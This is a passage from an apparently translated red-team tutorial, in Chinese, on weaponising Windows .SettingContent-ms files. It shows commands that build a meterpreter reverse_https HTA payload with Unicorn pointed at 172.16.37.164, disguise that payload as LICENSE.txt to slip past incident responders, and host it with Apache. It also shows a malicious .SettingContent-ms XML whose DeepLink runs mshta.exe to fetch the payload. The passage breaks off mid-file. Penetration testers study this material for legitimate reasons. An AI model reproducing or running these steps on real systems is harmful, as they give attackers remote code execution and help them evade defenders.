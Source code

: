 这将创建一个混淆的PowerShell有效载荷（payload），并将其导出到powershell_attacks.txt：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.trustedsec.com/wp-content/uploads/2018/06/dk1.png)

图1 – 混淆的PowerShell代码

在将生成的PowerShell字符串插入.SettingContent-ms文件并执行时，似乎&lt;DeepLink&gt;&lt;/DeepLink&gt;字段出错：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.trustedsec.com/wp-content/uploads/2018/06/dk2_1.png)

图2 – 由于长字符串导致出错

在对DeepLink字段进行一番研究后，我注意到DeepLink字段允许的最大字符长度（包括路径和所有内容）是517个字符。虽然这对于我们的有效载荷（payload）来说已经是一个很大的空间，但这意味着在这个攻击向量中使用更大的有效载荷（payload）就不行了。

有许多可以在517个字符内获得代码执行的方式。在接下来的示例中，我们将使用“mshta.exe”这种常见的二进制攻击方式进行攻击。MSHTA位于Microsoft支持的每个操作系统上，并且具有从命令行远程下载和执行HTA文件的能力。我们可以使用许多其他方式，例如nps_payload（ [https://www.trustedsec.com/2017/07/new-tool-release-nps_payload/](https://www.trustedsec.com/2017/07/new-tool-release-nps_payload/) ），certutil（ [https://twitter.com/subtee/status/889173356284530688?lang=en](https://twitter.com/subtee/status/889173356284530688?lang=en) ），或其他方法。HTA很简单，您无需指定“hta”扩展名，因为大多数时候使用扩展名进行攻击会被阻断。

首先，我们先利用Unicorn创建支持HTA的payload，看看我们是否可以获得代码执行。

我们需要先生成恶意的HTA文件，切换到unicorn目录并输入以下命令：

```
python unicorn.py windows/meterpreter/reverse_https 172.16.37.164 443 hta
cp hta_attack/Launcher.hta /var/www/html/LICENSE.txt
service apache2 start
```

运行完Unicorn后，会生成适当的HTA文件。以下是运行Unicorn的截图：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.trustedsec.com/wp-content/uploads/2018/06/dk3.png)

图3 – 运行Unicorn生成payload

然后我们复制HTA文件并将其重命名为LICENSE.txt。在大多数情况下，如果事件应急人员正在排查恶意文件，有可能会忽略扩展名为.txt的文件。此外，如果这是一个真实模拟攻击，您可能希望使用HTTPS并使用合法且高信誉的域名来躲避蓝队（blue team）。

最后，我们启动Apache来托管恶意的HTA文件。

以下是Unicorn输出的恶意/混淆HTA的示例：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.trustedsec.com/wp-content/uploads/2018/06/dk4.png)

图4 – Unicorn的输出

接下来，我们创建一个包含指向我们恶意HTA（LICENSE.txt）URL的Test.SettingContent-ms文件：

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;PCSettings&gt;
  &lt;SearchableContent xmlns="http://schemas.microsoft.com/Search/2013/SettingContent"&gt;
  &lt;ApplicationInformation&gt;
      &lt;AppID&gt;windows.immersivecontrolpanel_cw5n1h2txyewy!microsoft.windows.immersivecontrolpanel&lt;/AppID&gt;
      &lt;DeepLink&gt;%windir%system32mshta.exe http://172.16.37.164/LICENSE.txt&lt;/DeepLink&gt;
      &lt;Icon&gt;%windir%system32control.exe&lt;/Icon&gt;
    &lt;/ApplicationInformation&gt;
    &lt;SettingIdentity&gt;
      &lt;PageID&gt;&lt;/PageID&gt;
      &lt;HostID&gt;`{`12B1697E-D3A0-4DBC-B568-CCF64A3F934D`}`&lt;/HostID&gt;
    &lt;/SettingIdentity&gt;
    &lt;SettingInformation&gt;
```